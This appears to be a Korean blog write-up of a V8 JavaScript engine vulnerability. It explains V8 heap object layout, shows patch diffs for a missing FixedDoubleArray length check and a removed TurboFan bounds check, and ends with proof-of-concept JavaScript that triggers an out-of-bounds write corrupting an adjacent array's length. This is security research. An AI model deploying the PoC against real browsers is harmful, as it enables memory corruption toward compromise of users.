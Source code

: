 ```yaml
---
layout: post
comments: false
categories: CVEs
---
```



## V8 내부 객체 구조

모든 객체는 공통된 헤더를 가집니다.

```
[ Map Pointer | Properties Pointer | Elements Pointer | … (in-object fields) … ]
```

- Map Pointer
    - 이 객체가 어떤 형(Shape)인지 정의하는 포인터
    - Hidden Class라고도 부르며, 프로퍼티 이름·순서·타입 정보·접근 오프셋 등이 담긴 메타데이터.
- Properties Pointer
    - named property(예: `obj.foo = 123`)들의 실제 값 저장소로 연결.
    - Fast Properties 모드일 땐 `FixedArray` 또는 `DescriptorArray` 포인터, Dictionary Properties 모드에선 해시맵 구조체 포인터.
- Elements Pointer
    - 인덱스 Properties들의 저장소.
    - 보통 `FixedArray` 또는 `FixedDoubleArray` 형태로, 길이와 실제 데이터가 이어진 버퍼.
- In-Object Fields
    - Map에 정의된 in-object property count 만큼, 헤더 뒤에 곧바로 배치되는 슬롯 공간.
    

```jsx
a = 1;
b = true;
c = ['1', '2'];
d = {"a": 2};
e = {"b": 1, "c": 3};
```

- a = 1

`1` 은 31비트(또는 32비트 아키텍처에선 30비트) 정수로 태그되어, 포인터처럼 레지스터나 스택에 저장.

Heap 할당 없이 즉시 사용 가능 → 매우 빠른 접근 속도

- b = true

마찬가지로 heap 할당 없이 저장

- c = ['1', '2']
    - HeapObject 헤더
    
    ```
    ┌───────────────────────────────────────────┐
    │ HeapObject for Array c                    │
    │ ┌────────────┬───────────────────────────┐│
    │ │ Map Ptr    │ → Map_Array               ││
    │ ├────────────┼───────────────────────────┤│
    │ │ properties │ → empty_properties_array  ││
    │ ├────────────┼───────────────────────────┤│
    │ │ elements   │ → FixedArray (len=2)      ││
    │ ├────────────┼───────────────────────────┤│
    │ │ InObject0  │ (unused)                  ││
    │ └────────────┴───────────────────────────┘│
    └───────────────────────────────────────────┘
    ```
    
    - **Map_Array**: 배열 전용 Hidden Class
    - **properties**: 배열은 일반적으로 named property가 없으므로 빈 배열 포인터
    - **elements**: `FixedArray` 형태, 두 슬롯에 `String('1')` 과 `String('2')` 에 대한 포인터 저장
        - 문자열 `'1'`, `'2'` 는 각각 **HeapObject String** 으로 따로 저장.
- d = {"a": 2}
    - 초기 빈 객체
    - 프로퍼티 `a` 추가
        - HiddenClass 전이
        - properties 확장
            
            `properties` 포인터가 빈 배열 → `FixedArray(len=1)` 로 교체, [0]에 SMI `2`
            
- e = {"b": 1, "c": 3}
    - 빈 객체
    - 프로퍼티 `b` 추가
        - properties → `FixedArray(len=1)` 에 [1]
    - 프로퍼티 `c` 추가
        - properties → `FixedArray(len=2)` 에 [1, 3]
        

## Root Cause

- 배열 생성 시 최대 길이 검사 누락

V8 소스의 `fixed-array.tq` 파일에 정의된 매크로 `NewFixedDoubleArray`에서,  생성하려는 배열의 길이가 `kFixedDoubleArrayMaxLength`를 초과하는지 검사하는 코드가 빠져 있습니다.

```diff
macro NewFixedDoubleArray<Iterator: type>(
    length: intptr, it: Iterator): FixedDoubleArray|EmptyFixedArray {
  if (length == 0) return kEmptyFixedArray;
+ if (length > kFixedDoubleArrayMaxLength) deferred {
+     runtime::FatalProcessOutOfMemoryInvalidArrayLength(kNoContext);
+ }
  return new FixedDoubleArray{
    map: kFixedDoubleArrayMap,
    length: Convert<Smi>(length),
    objects: …it
  };
}

```

이로 인해 길이가 한계치를 초과해도 `FixedDoubleArray`가 생성되어 내부 버퍼 크기를 벗어나는 상태가 만들어집니다.

- JIT 최적화 과정에서 경계 검사 제거
TurboFan JIT 컴파일러의 `simplified-lowering` 단계에서, 배열 접근에 대한 경계 검사가 없습니다.

```diff
case IrOpcode::kMaybeGrowFastElements: {
  ProcessInput(node, 0, …);  // object
  ProcessInput(node, 1, …);  // elements
  ProcessInput(node, 2, …);  // index
  ProcessInput(node, 3, …);  // length
  ProcessRemainingInputs(node, 4);
  SetOutput(node, MachineRepresentation::kTaggedPointer);
- if (lower() && index_type.Max() < length_type.Min()) {
-   DeferReplacement(node, node->InputAt(1));
- }
  return;
}

```

이 단계에서 “index < length”라는 전제 조건 검사를 완전히 빼 버리기 때문에, OOB 쓰기가 가능해집니다.

## PoC

- `giant_array` 생성

```jsx
array = Array(0x40000).fill(1.1);
args  = Array(0x100 - 1).fill(array);
args.push(Array(0x40000 - 4).fill(2.2));
giant_array = Array.prototype.concat.apply([], args);
```

`array` 길이: 0x40000 (262 144)

`args`에 0xff개(`0x100 - 1`)의 동일 배열 추가 → 길이 = 0x40000 × 0xff

마지막에 길이 0x40000−4 (262 140) 배열 추가 → 총합 = 262 144×255 + 262 140 = 67108860

- `splice`를 통한 배열 재생성

```jsx
giant_array.splice(
  giant_array.length, 0, 3.3, 3.3, 3.3
);
```

이 호출로 V8은 내부적으로 새로운 `FixedDoubleArray`를 만들면서 길이를 `67108863`으로 설정

그러나 `NewFixedDoubleArray`에선 최대 길이(`kMaxLength = 67 108 862`) 초과 여부를 검사하지 않으므로, 버퍼 오버플로우 상태가 만들어집니다.

- 경계 검사 제거 반복 트리거

```jsx
for (let i = 0; i < 30000; ++i) {
  trigger(giant_array);
}
```

JIT 컴파일러가 `trigger` 함수를 **반복** 실행하여 최적화를 활성화

최적화된 바이트코드에서는 배열 길이 검사(`index < length`)가 삭제되어, 이후 해당 함수를 호출할 때마다 OOB 쓰기가 곧바로 실행

- OOB 쓰기

```jsx
function trigger(array) {
  var x = array.length;     // 67 108 863
  x -= 67_108_861;          // 2
  x = Math.max(x, 0);       // 2
  x *= 6;                   // 12
  x -= 5;                   // 7
  x = Math.max(x, 0);       // 7

  let corrupting_array = [0.1, 0.1];
  let corrupted_array  = [0.1];

  corrupting_array[x] = length_as_double;
  return [corrupting_array, corrupted_array];
}
```

`x` 계산 결과 `7`이 되는데, 실제 `corrupting_array`의 길이는 2이므로 인덱스 7은 경계 밖
이때 `length_as_double`을 써서, 인접 메모리를 덮어쓰게 됩니다.